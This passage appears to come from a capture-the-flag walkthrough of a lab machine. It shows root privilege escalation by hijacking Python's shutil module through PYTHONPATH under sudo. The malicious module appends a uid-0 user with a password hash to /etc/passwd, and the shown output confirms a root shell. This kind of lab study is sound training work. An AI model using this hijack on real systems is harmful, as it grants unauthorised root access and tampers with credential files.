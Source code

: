 NOTE: PYTHONPATH is an environment variable that tells Python to check a certain directory first, before checking default locations. 

shutil.py:

```
#!/bin/python3

import os

def make_archive(x, y, z):
        os.system('echo firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash >> /etc/passwd')
```

Now, we just need to run the sudo command, passing a new PYTHONPATH environment variable to it:

```
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh

Choose Option 6
```

Now, we can su to firefart, giving ourselves root!

```
su firefart
Password: firefart

root@admirer:/var/tmp# whoami
root
```

Voila, root!

Note: It's usually better to return a reverse shell, so we don't have to modify /etc/passwd, but I had some issues with the box returning a stable shell. Now we just need to clean up after ourselves and delete the last line from /etc/passwd that we appended!

